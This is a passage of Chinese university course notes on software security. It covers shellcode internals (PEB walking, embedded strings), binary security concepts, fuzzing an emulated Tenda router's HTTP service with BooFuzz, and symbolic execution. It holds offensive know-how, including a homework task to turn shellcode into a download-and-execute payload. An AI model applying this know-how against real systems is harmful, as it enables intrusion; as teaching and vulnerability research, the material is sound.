- 这个链表，就是这个代码里的`InitOrderModuleList`。这个`InitOrderModuleList`在一个称为 LDR 的数据结构里。这个LDR的数据结构，又在 PEB 这个数据结构里，进程环境块。而PEB数据结构，在每个进程中，是一个**固定的位置**，是一个**绝对的常量地址**，这个地址就是`fs:ebx+0x30`
- 所以地址就可以不依赖于任何API或者其他依赖，直接用汇编代码就能访问到

从这里能一层层找到dll的基地址，然后再从dll的基地址，通过PE文件的数据结构，文件头，找到dll的导出表。然后再在导出表中的数据结构中，通过函数名称的比较，得到已经在内存中的函数的地址。所以代码中的循环，findFunctionAddr 的递归函数，和 searchLoop ，就是在遍历dll的导出表

代码中大量使用到了硬编码的偏移地址，比如


就是因为上面这些说到的系统的数据结构，都是固定的结构，在每个系统中都是一样的，所以可以固定。

通过系统中若干数据结构这种原始的访问方式，可以找到API函数

#### 字符串

shellcode中还用到了字符串，至少函数地址的名称是需要的，还有调用WinExec的参数 calc.exe ，如果在C语言里编程，编译器会把可执行程序的代码和字符串，放在不同的地址。
  
代码、机器指令在text段中，字符串在data段 > 地址相差很远。而objdump只取了代码段，没有取数据段。若是全都取，则shellcode就太大，因为中间可能会有很多的填充字符，而且数据地址很有可能是绝对地址，而code经过dump后放在其他环境中执行，地址会发生变化。**所以字符串，code也是找不到的**

唯一的办法是用一种方式把字符串**硬编码**在shellcode中，让字符串，变为代码的一部分，内嵌在机器指令中。


- `636c6163`和`6578652e`是 calc.exe 的 big ending 反写，压入栈以后，就形成了字符串。这样就把字符串嵌入机器指令了，作为机器指令的操作数。

# 作业

1. 详细阅读 www.exploit-db.com 中的shellcode。建议找不同功能的，不同平台的 3-4个shellcode解读。
2. 修改示例代码的shellcode，将其功能改为下载执行。也就是从网络中下载一个程序，然后运行下载的这个程序。提示：Windows系统中最简单的下载一个文件的API是 UrlDownlaodToFileA
   - 其中第二个作业，原参考代码只调用了一个API函数，作业要求调用更多的API函数了，其中涉及到的参数也更复杂，但是原理是相通的。URLDownloadToFileA函数在 Urlmon.dll 这个dll中，这个dll不是默认加载的，所以可能还需要调用LoadLibrary函数

## [实验结果](./hw-0x06-Shellcode/README.md)

# 参考资料

- https://docs.microsoft.com/en-us/windows-hardware/drivers/debugger/-peb
- https://www.cnblogs.com/binlmmhc/p/6501545.html
- https://docs.microsoft.com/en-us/windows/win32/api/winternl/ns-winternl-peb
- https://en.wikipedia.org/wiki/Process_Environment_Block

</details>

---

<details>
<summary>2020-4-29 二进制安全 [无作业] </summary>

# 软件安全中的二进制安全

二进制安全是整个软件安全中核心的内容

## 二进制软件

- 核心：二进制是软件的最基本形态
  - 所有的基础软件都是以二进制软件的形式存在
  - 二进制软件：操作系统、浏览器、数据库、中间件、各种脚本软件的解释执行器、很多大型游戏
- 二进制软件的基本特征：是CPU可以直接运行的机器指令
  - CPU能够运行的机器指令都是二进制的，包括了很多非ASCII的不可打印字符
  - 二进制程序无法跨平台：不同平台的二进制软件是不同的，Intel架构的cpu的二进制无法在ARM架构上运行，反之也是
  - 二进制形式的软件无法跨操作系统运行：二进制程序还需要操作系统的支持
- 直接使用二进制或者十六进制进行编程，人进行数据阅读比较困难，效率非常低下 -> 编程的时候不直接处理二进制，直接使用文本来编程
  - 文本代码CPU无法执行，需要**编译和链接**
  - 程序员编写出来的文本形式的代码 -> 源代码
    - 首先发明的源代码是汇编形式的，是使用的和机器指令一一对应的汇编语言，是一种直接最简单的操作指令级别的翻译过程
    - 汇编的编程还不是很方便，后来发明了C语言等高级语言，高级语言不止C语言一种，但是C比较成功，又发明了C++
  - 编译后生成的机器可运行的代码 -> 目标代码
- 研究二进制安全，首先需要了解的就是二进制软件和源代码，之后是脚本语言的关系

## 软件安全研究的核心问题

- 看表面不够，深入内部细节，需要了解的软件的具体原理，到代码级别
- 已经发现的软件安全典型的问题：栈溢出、堆溢出、格式化字符串漏洞、空指针、整形溢出等等
- 软件安全研究的两个核心问题
  - 安全问题（也叫脆弱性，通常叫漏洞）的存在性问题 - 漏洞挖掘
  - 这个安全问题的可利用性问题，安全漏洞具体有什么危害，如果达到这个危害如何防止 - 漏洞利用

### 漏洞挖掘 - 安全问题的存在性问题

- 安全问题的脆弱性，通常叫漏洞
- 由于软件安全的漏洞都是具体的，都是由软件内部的代码的编程不慎所引起的 > 所以漏洞挖掘方法就是分析代码
- 分析二进制（安全人员捕获一个攻击程序后拿不到源代码，源代码在发起攻击的人 / 黑客手上）
  - 在了解二进制机器指令的基本原理后，通过一些辅助的工具来解读
  - 通过逆向工程的一些技术，把二进制软件解构、翻译，然后就能理解其实现的原理
- 漏洞挖掘技术现在是攻防双方都在使用：软件的开发人员也在采用黑客发明的漏洞挖掘技术来挖自己的漏洞，以争取在软件发布前把安全问题尽量发现和修补

#### 反汇编

- 反汇编以及在汇编代码上的一些解构，比如获得函数列表、获得每个函数的调用关系、获得函数内部的控制流程图
- 变量名、函数名、注释、一些数据类型是源代码层面方便程序员编程的，对于二进制软件来讲，名称信息没有用处，机器指令内部全部是使用“数据和代码的存储地址”
- 反汇编工具：基本 > dumpbin & objdump，高级 > IDA-pro
- 所有的调试器也都有反汇编功能

#### 调试器

- 调试器比反汇编器要高级，因为反汇编器只能在程序没有运行起来的时候去观察它，而调试器可以在程序运行起来以后，随时中断程序的运行并观察
- 运行时的信息要更丰富，比如运行时候可以看到用户输入的数据、外部读入的数据、这些数据的具体处理过程、某个变量在运行时的赋值情况等，这些信息都是静态的反汇编所没有的。但信息丰富则需要分析和处理的数据量是非常大的
- 调试器还有一个反汇编器没有的功能：能捕获**程序执行的异常**
  - 异常信息：因为二进制软件的安全问题，通常会引起程序运行时的内部数据结构被破坏，比如各种溢出，其实是覆盖了正常的数据。内部数据结构被破坏以后，程序在后续执行时，可能访问这些不正常的数据，进而引起运行时错误
  - 大多数运行时错误，最后都变成内存访问的异常 > 虚拟内存管理方面的知识

#### 漏洞寻找

有了调试器和反汇编器，就有了观察和了解程序内部原理的工具，这些基础工具就像医院用的心电图、X光和CT一样，是获得内部基础数据的工具。但是只有这些工具，有时候还是不能发现具体问题，我们得了解具体漏洞产生的原因，比如溢出，为什么溢出是严重的安全问题

寻找漏洞最直接的思路，是一行行看代码 > 可行性 && 巨大的麻烦(软件是一个非常复杂和庞大的事物，比如Windows，有上万名开发人员，持续开发了20年，发布了无数个版本。如果一行行看代码，还不是源代码，是二进制反汇编代码，则需要和开发人员同等数量的人员和时间，这往往是达不到的)

**所以漏洞的挖掘，极少情况下会直接人工分析源代码，安全研究人员们，更希望借助自动化的工具**

#### 两大类自动化工具：模糊测试工具 & 程序分析工具

##### 模糊测试(Fuzzing)

- 认为软件很复杂，干脆不要去看内部了，把软件当做一个黑盒子，只看它的外部表现，给它各种各样的输入，看它在处理过程中会不会出现异常。如果有异常就说明软件在设计的过程中，没有考虑到用户会输入这样的数据，和软件的预期不符合，则存在漏洞。程序异常通常会引起程序的崩溃，用调试器来捕获异常，能实现自动化
- 通过研究漏洞的原理，漏洞是**畸形数据**引起的，比如输入了一个超长的字符串，比程序员内部预留的长，则发生溢出。所以通过输入畸形数据去尝试触发崩溃的方法，理论上也是可行的
  - 通过**随机**，构造畸形数据。随机并不是每次都能构造出正好合适的畸形数据，但是随即构造大量数据以后很有可能有那么一两次成功
  - 软件虽然复杂，但是运行速度很快，可以**不停的自动**运行目标软件，让软件来处理这些随机构造的可能是畸形的数据，然后运行的时候启动调试器来捕获可能得异常，虽然不是每次都能触发异常

##### 模糊测试工具

- 深入软件的内部原理的，分析它的每一行代码
- 代表的技术：危险函数定位和符号执行等
  - 危险函数定位的思路是，既然strcpy等能引起缓冲区溢出，那么就把全部的strcpy找出来看一看。随着研究的深入，人们发现，不是所有的漏洞都是危险函数引起的。内存操作的方法各种各样，千奇百怪，而且不是所有的危险函数都会引起安全问题。比如调用之前进行了长度判断 > 所以这种方法效果很差
  - 符号执行：分析方法，逐步复杂

### 漏洞利用 - 安全问题的可利用性问题

- 安全漏洞具体有什么危害 / 安全缺陷的危害，如果达到这个危害，如何防止
- 编写exp（漏洞利用程序）也是软件安全研究人员的基本功
  - exp一般分为攻击数据部分 + 攻击成功后的控制部分，前一部分比如一个超级长的字符串，用来溢出缓冲区；后一部分，就是shellcode
  - shellcode很多时候可以通用，但是攻击数据部分，每个漏洞都不一样。这部分的学习，比较有效的办法就是去阅读和使用别人写好的exp。kali Metasploit exploit-db上有很多这样的程序，有一些安全研究人员的个人博客上也有很多。所以大家就去找一两个公开了exp的具体的漏洞，搭建漏洞环境，解读学习exp > **漏洞复现**

#### 别人已经挖掘发现的漏洞

- 一些软件厂家，比如微软会定期升级自己的系统，打补丁。在打补丁升级系统的时候，就会同时给出安全公告说修补了那些问题
- 统一的数据库CVE：但是并不是每个软件厂家都有能力或者意愿去维护一个安全漏洞。有一些第三方的组织就来收集各种漏洞，并形成了一个统一的数据库，比如CVE
  - CVE给每个漏洞都编写，说明漏洞影响的软件及其版本，危害程度等等详细信息
  - 少量的漏洞还会给出PoC，也就是概念验证程序。早期的漏洞很多都有PoC，因为那个时候，很多软件厂家不重视漏洞修补工作。漏洞的发现人员，或者安全厂商放出PoC也能逼迫软件厂商去修补
  - 现在，软件漏洞的披露已经很规范了。国家也重视，所有美国和我们有国家安全漏洞数据库，美国有NVD，我们国家的CNVD和CNNVD。这些都是大家去找已经公开的漏洞的地方

#### 漏洞复现

如果拿到了一个漏洞的详细公告和PoC，如何去复现这个漏洞：安装一个有漏洞存在的软件版本

虚拟机：这个过程中，通常在**虚拟机**里安装配置。因为漏洞需要的环境可能和我们的工作主机的环境冲突很大，而且漏洞环境复现过程中，可能会破坏系统。如果我们要复现很多漏洞，不在虚拟机中进行，会把自己的工作环境弄得很乱

模拟器：模拟器和虚拟机相似又不同，他们都是在内部构造了一个“虚拟的机器”。这个虚拟的机器可以和真实的机器一样安装和运行操作系统以及各种软件。但是虚拟机，还是借助的物理CPU的虚拟化功能，而模拟器是使用软件来“实现”了一个CPU及其附属的设备
- 虚拟机的host系统和guest系统，只能是同一架构的。比如物理主机是intel架构，那么host和guest都这能是Intel 0x86架构的系统，比如Windows和Linux x86。但是模拟器就可以跨架构，host是Windows x86，guest是arm架构的安卓系统。
- 模拟器的典型代表：[QEMU](https://www.qemu.org/)
- 如果要研究安卓系统、路由器等MIPS架构的系统，就需要模拟器
- 模拟器通常也有调试、单步运行等功能，除了用于漏洞复现，也可用于漏洞挖掘。比如要挖掘一个路由器的漏洞，不能直接对着物理路由器Fuzzing，因为就是触发了异常，也无法捕获。所以通常是把固件提取出来，在模拟器中运行

#### 软件攻防

黑客如果通过攻击，进入到了一个目标系统。除了要考虑窃取信息、加密硬盘（勒索软件）、破坏数据等攻击之外，还需要考虑：第一是不留痕迹，第二是不能被杀毒软件和主机中的一些防御系统识别

早期，安全研究人员也在想办法对抗漏洞攻击和计算机病毒（计算机病毒其实就是一个可以自我复制的漏洞利用程序）。他们想到的办法就是杀毒软件
- 杀毒软件的基本原理是把已经发现的病毒等各种恶意程序的特征值记录在数据库中，每当系统中有新的文件时就计算一下这个文件的特征值，然后和数据库中的特征值进行比较，如果匹配上了，说明这是一个恶意程序
- 特征值通常是hash值。因为恶意软件很多，不可能把整个恶意软件都作为特性，占用空间也不方便分发特征值（分发特征值就是病毒升级）。但是如果源数据稍微变化一下，hash值就变化了。比如病毒修改自己的一个无意义的常量数据，功能不变，杀毒软件就无法查杀了。所以后来有发明了动态的基于行为的检测。
- rootkit技术：恶意软件需要隐蔽自己，比如文件、进程、通讯的端口都需要隐藏起来
  - rootkit技术很多是基于API hook。通过挂钩API，篡改了操作系统的行为，当防御软件在列举目录中文件时，根本就获取不到攻击程序的文件

防御软件和攻击软件就是一个技术博弈，此消彼长的过程，产生了非常多很有意思的技术：
- 比如攻击软件为了防止被发现，根本就不产生文件。可执行程序首先是一个文件，在系统上创建进程运行。后来出现了根本不产生文件，也不修改其他文件，寄生在其他可执行程序进程中、直接从网络加载到内存就能运行的恶意程序
- 外挂：外挂程序也是通过修改正常程序的软件行为，比如直接篡改内存中的数据，或者挂钩其函数，达到修改软件行为的目的。开发和防御外挂软件的技术与软件攻防技术相似，都是需要使用逆向工程工具和调试器等、都需要大量的数据分析工作

</details>

---

<details>
<summary>2020-5-6 模糊测试 [作业：Fuzzing]</summary>

# 漏洞挖掘实战 - Fuzzing(模糊测试)

Fuzzing目前也是漏洞挖掘的主要方法之一，是各种漏洞挖掘技术中人力消耗比较低，技术门槛比较低，同时效果却比较好的一种方法，其他的方法比如程序分析、符号执行等也有人在用，但是难度相对较大一些

## Fuzzing挖掘漏洞过程

### 确立目标

1. 对什么软件进行漏洞挖掘，软件是做什么的
2. 数据来源是文件还是网络，或者既有文件又有网络
   - Fuzzing的主要原理就是随机性的大量给被测试软件输入数据，首先就需要知道软件是处理什么样的数据，应该如何给软件输入数据。
   - 一般来讲，现在主要就是文件和网络两种。如果是文件型的，最典型的比如Word，那么我们就需要构造大量的文件；如果是网络的，比如一个Web服务器，那么我们就需要构造大量的网络数据包发送给被测试软件。我们一般称为文件型Fuzzing和网络型Fuzzing

### 构造软件的运行环境

如果是Windows Linux的应用软件，可以直接运行。如果是手机软件，由于手机自带的调试功能比较弱，不方便控制和输入，一般可能需要一个模拟器来运行。

### 选择一个Fuzzing的框架

Fuzzing技术发展了很多年，有很多人已经开发了不少框架。框架已经解决了Fuzzing测试中的一些基本的共性的问题，我们不需要重头开始做。在框架的基础上，我们只需要进行一些配置或者少量的编程就可以开始进行测试了。

### 选择一种策略

#### 基于生成vs基于变异的

基于生成：我们的数据完全是**重新构造**的，不基于一些已有的数据或者模板。当然重新构造的过程中，也不能完全瞎构造，通常有效的测试数据并不是完全畸形的数据，而是**半畸形数据**。因为完全畸形的数据，可能在到达测试对象之前就已经被丢弃了。比如一个网络数据包，如果不符合数据包的基本格式、连IP地址都不对，那肯定是到不了被测试对象的。所以基于生成的，也需要在规则、协议、文件格式的基础上进行。所以基于生成的策略，一般**只对协议已知、格式开放的目标**。

一些未知协议或者格式不清楚的数据，就可以采用基于变异的策略。在已有的合法数据基础上，通过一定的随机性的变化来得到测试数据。
- 已有的合法数据比较容易得到，比如很多年前Word没有开放doc文件的格式，如果我们要对Word进行Fuzzing，就应该采取基于变异的策略：用Word先保存生产一个合法的doc文件，再在这个合法的doc文件的基础上大量变异，也就是随机性的替换一些数据、插入删除一些片段数据来得到大量的测试数据。
- 同样，如果是对网络程序进行Fuzzing，我们可以让网络程序先正常运行，抓取数据包。然后对抓取的数据包进行重放，重放过程中进行一定比例的变异（随机性的替换、插入、删除）。

## 模糊测试技术总结

模糊测试技术是一种通过**注入缺陷**实现的**自动化软件测试技术**。其基础是在执行时将包括无效的、意外的或随机的数据输入注入到程序中，监视程序是否出现崩溃等异常，以获取意外行为并识别潜在漏洞。

模糊测试的重点在于**输入用例的构造**。测试用例的生成方式可基于生成或基于变异。
- 基于生成的模糊测试(Smart Fuzzing)首先对目标程序进行分析，尽可能收集有关它的信息，基于这些信息生成测试数据。此技术基于前期大量分析构造有效的测试数据，自动化程度相对较低。
- 基于变异的模糊测试(Dumb Fuzzing)根据一定的规则对现有的样本数据进行修改并生成模糊测试用例。该生成方法简单，但是并未考虑程序自身的特点，因此生成测试用例有效性较低，漏报率高。

但是模糊测试在一定程度上降低了安全性测试的门槛，原理简单，一般不会误报。但是对目标对象知识的获取程度直接影响模糊测试的效果。而且，模糊测试技术无法检测所有漏洞。

## 实例 - 对家用路由器采用Fuzzing技术进行漏洞挖掘

### 搭建执行环境

首先，需要了解到，这种路由器，其实是硬件和软件一体的一个小型的设备。
- 它的架构和我们的电脑、手机其实有相同的地方。它也有CPU、内部有操作系统、在操作系统中还有少量的应用软件，来实现路由器的一些功能。
- 不同的是，这种小型路由器一般是MIPS架构的CPU，我们的电脑一般是intel架构的CPU(x86 x64)，Intel架构的CPU既包括Intel生产的CPU，也包括AMD公司生产的CPU。我们的手机都是ARM架构的CPU。
- 这几种架构各有特点。MIPS适合小型化设备，功耗低性能弱、价格便宜，结构简单。ARM适合中型一些的设备，体积小能耗小功能适合手机，但是价格比较高。x86_64适合电脑和服务器，能耗高（发热也就高）、性能最高，价格最贵，结构最复杂。
- 这几种CPU架构，他们的指令集是不一样的，所以有各自的汇编语言，也有各自的编译器工具链。手机操作系统并不能运行在PC上，同样这种路由器的操作系统，也无法直接运行在PC上。

所以前期有一些环境搭建的工作，需要把路由器的系统运行在模拟器中。QEMU就是中场景下广泛使用的模拟器。所以如果进行家用路由器的漏洞挖掘，首先第一步可能是安装 [QEMU](https://www.qemu.org/)

ubuntu下，一个成功的QEMU安装实例 / 使用Windows系统的可以直接下载安装包(但是由于后面我们还有其他工具大多时运行在Linux系统中的，所以我们的Fuzzing实验可能需要在Linux系统中进行。)
```bash
apt-get install zlib1g-dev
apt-get install libglib2.0-0
apt-get install libglib2.0-dev
apt-get install libtool
apt-get install libsdll.2-dev
apt-get install libpixman-1-dev
apt-get install autoconf
apt-get install qemu
apt-get install qemu-user-static
apt-get install qemu-system
```

QEMU的基本原理是**模拟各种CPU的执行环境**，用软件来实现CPU的硬件功能并封闭出来执行的环境。使用QEMU可以跨平台运行系统和软件。在软件开发和调试中应用非常广泛。比如我们开发手机APP，安卓系统的调试模拟环境就是基于QEMU的。

### 把目标程序在执行环境中运行

路由器的操作系统和整个应用软件，是植入到路由器的存储器中的，就像PC中的系统和软件安装在硬盘上一样。由于路由器功能单一，系统不大，所以一般将操作系统和应用程序打包成一个镜像文件，称为固件(Firmware)。如果有了固件，就可以在模拟器中运行整个路由器了。

所以路由器也是分为硬件和软件的，其bug和漏洞也主要是出现在软件中，软件都位于固件中，硬件中的问题我们一般不考虑。

固件的主体是一个裁剪过的微型Linux系统，然后在这个系统至少运行一些实现路由器功能的应用程序。比如会有实现路由协议的、实现包转发的程序、实现用户配置的程序（一般是一个Web服务器）、实现内网地址分发的DHCP的程序等。

要得到固件，有两种办法：直接从路由器中提取；从官方网站上下载一个固件。路由器中当然是有固件的，否则它不能运行。厂家的官方网站有时候会开放固件供下载，因为有一些用户有升级固件的需求，比如上一个版本的固件中发现了bug，厂家就会在网站上发布一个新的固件，让用户在配置界面中升级。虽然对大多数用户不会去升级路由器的固件，但是负责任的厂家有更新的义务。不过既然绝大部分不更新，也不会更新，所以也有一些厂家不提供。那么如果有有固件的，我们可以直接下载，没有的，就需要提取。

提取固件，也有现成的工具，比如binwalk。比如这是使用binwalk工具提取了一款tenda路由器的固件。



提取以后的固件使用QEMU加载运行，使用qemu-arm-static运行提取的固件。可以看到，路由器中用于用户配置的Web服务器已经运行起来了。


- 这种小型设备一般使用httpd这种小型的静态的http server

### 对已经运行起来的目标系统中进行Fuzzing测试

搭建一个针对这种小型路由的漏洞挖掘工作环境的流程。



有一些下载的固件或者固件内部的部分软件是源代码形式的，所以可能还需要编译一下。这里的编译称为交叉编译。以前在一个x86架构下的PC中，编译一个本架构下的软件，编译后在本机运行。而交叉编译是编译一个在其他系统中运行的软件，比如在x86系统中编译一个MIPS架构的软件。由于MIPS架构的主机一般性能不高，软件环境单一，所以通常不作为工作环境，也跑不起来编译器。所以我们在PC上进行编译，发布在响应环境中运行，这种称为交叉编译。mips-gcc 和 mipsel-gcc 编译器就是交叉编译器。所以，在实验过程中，根据情况，可能还有其他的支撑工具需要使用。

搭建好环境以后，系统和应用已经运行起来。下一步，就可以使用Fuzzing测试工具进行测试了。Fuzzing已经有一些框架可以使用：SPIKE、AFL、Sulley、BooFuzz

#### AFL

- AFL（American Fuzzy Lop）是由安全研究员Michał Zalewski开发的一款基于覆盖引导（Coverage-guided）的模糊测试工具，它通过记录输入样本的代码覆盖率，从而调整输入样本以提高覆盖率，增加发现漏洞的概率。其工作流程大致如下：
  1. 从源码编译程序时进行插桩，以记录代码覆盖率（Code Coverage）；
  2. 选择一些输入文件，作为初始测试集加入输入队列（queue）；
  3. 将队列中的文件按一定的策略进行“突变”；
  4. 如果经过变异文件更新了覆盖范围，则将其保留添加到队列中；
  5. 上述过程会一直循环进行，期间触发了crash的文件会被记录下来。
   
   

   - 可以看出AFL是基于变异策略的。所以的Fuzzing测试有一个目标就是通过输入畸形数据让程序崩溃crash，程序的崩溃往往就意味着有bug或者有漏洞，然后对引起崩溃的输入样本，或者崩溃或的系统日志、dump文件等进行分析。
   - AFL用了一种称为插桩的技术来进行崩溃的检测。

#### SPIKE

- SPIKE是由Dave Aitel编写的一款非常著名的Protocol Fuzz（针对网络协议的模糊测试）工具，完全开源免费。它提供一系列API用于用户使用C语言创建自己的网络协议模糊测试器。SPIKE定义了许多可用于C编码器的原语，这些原语允许其构造可以发送给网络服务的模糊消息以测试是否产生错误。SPIKE功能如下：
  1. 含大量可用于处理程序中产生错误的字符串。并且，SPIKE能够确定哪些值最适合发送到应用程序，从而以一种有用的方式导致应用程序异常。
  2. SPIKE引入“块”的概念，用于计算由SPKIE代码生成的数据内指定部分的大小，并且可以将这些值以各种不同的格式插入。
  3. 支持并以不同格式接收许多在网络协议中常用的不同数据类型。
  - SPIKE功能强大，是一款优秀的模糊测试工具，但是文档较少，只能根据各种参考资料和一些测试脚本整理常用的API使用方法。

#### Sulley

- Sulley是由Pedram Amini编写的一款灵活且强大的模糊测试工具。可用于模糊化文件格式、网络协议、命令行参数和其它代码。除了专注于数据生成外，Sulley还具有如下功能：
  1. 监视网络并保留记录。
  2. 检测和监控目标程序的健康状况，能够使用多种方法恢复到已知的良好状态。
  3. 检测、跟踪和分类检测到的故障。
  4. 可以并行执行测试，提高检测速度。
  5. 自动确定测试用例触发的特殊错误。
  - Sulley功能比SPIKE更加的完善，能够进行构造模糊测试数据、监测网络流量、进行错误检测等，但是Sulley检测只能用于x86平台。

#### Boofuzz

- Boofuzz是Sulley的继承与完善。Boofuzz框架主要包括四个部分：
  1. 数据生成，根据协议原语构造请求。
  2. 会话管理或驱动，将请求以图的形式链接起来形成会话，同时管理待测目标、代理、请求，还提供一个Web界面用于监视和控制检测、跟踪并可以分类检测到的故障。
  3. 通过代理与目标进行交互以实现日志记录、对网络流量进行监控功能等。
  4. 有独立的命令行工具，可以完成一些其他的功能。

### 安装和配置BooFuzz

使用Boofuzz对模拟器环境中的路由器程序进行测试主要步骤为：第一，根据网络请求数据包构造测试用例请求；第二，设置会话信息(目标IP、端口号等)，然后按照请求的先后顺序将其链接起来；第三，添加对目标设备的监控和重启机制等；第四，开始测试。

比如上面那个tenda路由器，在运行起来以后，如果我们对其http服务进行Fuzzing，我们可以使用浏览器先访问他们的http 服务。这是路由器固件在QEMU中运行以后的结果。


- 服务器监听在 192.168.148.4:81。通过浏览器访问192.168.148.4:81与路由器管理界面进行尽可能多的交互，使用Wireshark抓取到不同URI的数据包。
- 对捕获的数据包进行分析，确定数据输入点，以抓取到的其中一个数据包为例：
    ```
    1   GET /goform/GetRouterStatus?0.7219206793806395&_=1587978102556  HTTP/1.1
    2   Host: 192.168.148.4:81
    3   User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:75.0) Gecko/20100101 Firefox/75.0
    4   Accept: text/plain, */*; q=0.01
    5   Accept-Language: en-US,en;q=0.5
    6   Accept-Encoding: gzip, deflate
    7   X-Requested-With: XMLHttpRequest
    8   DNT: 1
    9   Connection: keep-alive
    10  Cookie:password=""
    11  Referer: http://192.168.148.4:81/main.html
    ```
- 根据HTTP协议特点及缓冲区溢出漏洞特点，对该请求选取以下数据输入点
  - 第1行，HTTP协议有GET、POST、PUT、DELETE、CONNECT、OPTIONS、TRACE等方法，若方法使用错误可能会超长缓冲区溢出漏洞，例如，相比GET方法，POST方法可以提交更多的数据，若使用POST方法提交的表单误用了GET方法进行提交，会导致查询字符串过长造成溢出，因此把数据包中的GET方法当成一个输入点。若URI超长，服务器在处理请求的时候使用危险函数读取URI或未对URI长度进行限制，也可能导致安全漏洞，因此将URI处也进行模糊测试。
  - 第10行，若Cookie超长，程序认证用户身份信息时若用危险函数读取Cookie也可能造成缓冲区溢出，因此将Cookie处进行模糊测试。
- 选定了一个具体目标，就可编写模糊测试脚本了。脚本的编写，需要查一下BooFuzz的官方文档，查看一是示例代码，比较容易。
- 根据上述分析，利用Boofuzz提供的原语对HTTP请求进行定义，设置与会话相关的信息，包括目标设备IP地址、端口等。

这是在测试过程中的一些截图。在模拟器中监视到了程序崩溃，造成程序异常的数据包主要是其Cookie字段过长，初步判断是由于Cookie字段造成缓冲区溢出导致程序异常退出。有了以上数据以后，就可以将引起崩溃的输入数据在调试环境下再次输入到测试对象，进行调试了。


这是上面那个漏洞的相关代码，在IDA-pro调试后定位的漏洞代码。图中的if语句不满足，函数不会读取R3寄存器存储地址，而是直接返回，因此，若在测试数据中添加.gif，则PC寄存器将会被覆盖。这些事后的分析是经过了非常多的调试工作以后确定的。工具主要是GDB和IDA-pro


## 总结


上图显示了我们使用binwalk QEMU BooFuzz GDB IDA-pro一系列工具，发现了路由器http管理界面由于cookie超长引起的一个缓冲区溢出漏洞的发现（复现）过程。

漏洞挖掘是一个非常综合性的工程，设计到的工作比较细致，比较多。

## 作业

搜集市面上主要的路由器厂家、在厂家的官网中寻找可下载的固件在CVE漏洞数据中查找主要的家用路由器厂家的已经公开的漏洞，选择一两个能下载到且有已经公开漏洞的固件。如果能下载对应版本的固件，在QEMU中模拟运行。确定攻击面（对哪个端口那个协议进行Fuzzing测试），尽可能多的抓取攻击面正常的数据包（wireshark）。查阅BooFuzz的文档，编写这对这个攻击面，这个协议的脚本，进行Fuzzing。配置BooFuzz QEMU的崩溃异常检测，争取触发一次固件崩溃，获得崩溃相关的输入测试样本和日志。尝试使用调试器和IDA-pro监视目标程序的崩溃过程，分析原理。

作业比较大。可能需要比较多时间。大家尽量做，至少要把几个工具用得比较熟悉。

### [实验结果](./hw-0x07-Fuzzing/README.md)

</details>

---

<details>
<summary>2020-5-13 符号执行 + KLEE [作业：KLEE Three Tutorials]</summary>


# 符号执行

## 黑盒测试

黑盒测试主要通过操纵其公开接口对软件进行评估，其中最知名的黑盒测试是模糊测试（Fuzzing）

模糊测试把测试对象当做一个黑盒子，不深入理解内部原理。模糊测试或者模糊化是一种软件测试技术，通常是自动化或者半自动化的，它能提供有效的、未预期的、随机的数据作为程序的输入

模糊测试能产生很多崩溃，分析人员通过这些崩溃作为分析问题的起点，以便确定漏洞的可利用性。然而，因为对程序控制流缺乏语义上的理解，模糊测试有代码覆盖率低的缺陷，即使是当前最高级的模糊测试技术也很难完全覆盖大型程序的所有路径

举个例子，对于以整形数据为路径分支条件，含有长为32比特的常量的约束等式条件（如if(v==4)），Fuzzing测试仍然有可能达到其上限次数（2^32次尝试）才能找到使得此等式为true的值，那么这个if为true分支被测试到的可能性极低

**毕竟不看代码，完全瞎试是Fuzzing的精髓嘛**

## 符号执行

符号执行就是为解决这个问题而设计的

符号执行作为一种能够系统性探索程序执行路径的程序分析技术，能有效解决模糊测试冗余测试用例过多和代码覆盖率低这两个问题。

与模糊测试的思路不一样，符号执行是一种程序分析技术，是白盒测试技术，基于程序分析 / 或者说是一种程序分析技术，需要解析程序的源码（或者至少是反汇编后的汇编代码）

### 主要思想

以**符号输入**代替程序的实际输入，以**符号值**代替程序运行过程中的实际值，并以**符号布尔表达式**表示程序中的分支条件。这样，一条程序执行路径就包含了一系列的符号变量、表达式赋值以及约束条件等，程序中的各路径的信息能以符号的形式被完整记录和保存

我们把**某条执行路径上的所有分支条件所组成的约束集**（Constraint Set）称为路径约束或路径条件（PC, Path Constraint，Path Condition）。符号执行的主要目的是通过对路径约束的求解来判断此条路径的可达性（Feasibility），并能给出执行此条路径的实际测试输入

简单来说，符号执行的目的是**覆盖程序执行的每一个分支**。方法就是查看和收集程序执行过程中每一个分支条件的具体条件，把这些具体条件收集起来，变成一个数学的表达式，然后通过一些方法自动化的求解这些表达式，得到满足执行程序的路径的具体的输入的值，就可以覆盖特定的程序分支了

### 例子讲解


左边的是一段示例代码，一共13行，包括两个函数，一个main函数，一个foo函数

程序有两个输入，从外部读入的数据x和y

foo函数以x和y作为条件，内部有分支

假设在第五行有一个bug，需要一种自动化的方法来找出这个bug

Fuzzing技术在某些特定情况下有可能极其小的概率才能覆盖到特定分支，所以Fuzzing技术最大的问题就是代码覆盖率不高。对于穷尽每个执行路径目标来说有点难

符号执行在解析代码的情况下，首先把程序的**每一个分支**画出来，形成一个称为**符号执行树**的数据结构 
- 类似程序的控制流程图
- 要明确每个分支的具体的执行路径条件
- 比如第一个分支的执行条件是y>x，第二个分支的执行条件是y<z+10。x和y都是输入数据，在数学上来说，都是未知数。如果我们能够有一种方法，可以求解 y>x 的一个满足解和一个不满足解，就找到了覆盖两个分支的两个测试用例。同样，对第二分支来说，在满足 y>x 的情况下，同时再满足 y<z+10 或者不满足 y<z+10 ，就能得到两个二级分支的具体的输入数据
- 这里多了一个变量z，通过分析代码发现，z并不是一个新的数据数据，并不是未知数，而是其他未知数赋值而来，所以每一步，我们都记录下这种赋值关系，形成一个“表达式组” > 我们初中的时候学的“不等式组”
- 理论上来讲，每一个程序执行的分支，每一个“执行路径”都有一个**确定的不等式组**作为执行条件，我们称为“约束”。如果能求解到这个不等式组的一个解，那么就可以构造出专门覆盖这条路径的测试数据，称为“约束求解”
- 对于我们想要找的bug > 第五行的代码，最终形成一个这样的“约束条件” > 是这一个具体路径的路径约束
  
  

#### 求解约束

- 自动化求解，不是人工求解
- 得到一个满足解即可，不用得到解析解 > 只需要得到一个满足这个不等式组的具体的值，就等达到目的
- 如果我们把每一个路径的约束全部求解一遍，那么我们就能得到100%代码覆盖率的测试数据集，能够充分测试一个软件，找出软件中所有潜在的bug和漏洞

#### SAT

**想法很好，难度很大**

符号执行技术在上个世纪70年代被提出之后，受限于当时计算机的计算能力和约束求解技术的不足，并没有取得太大的进展

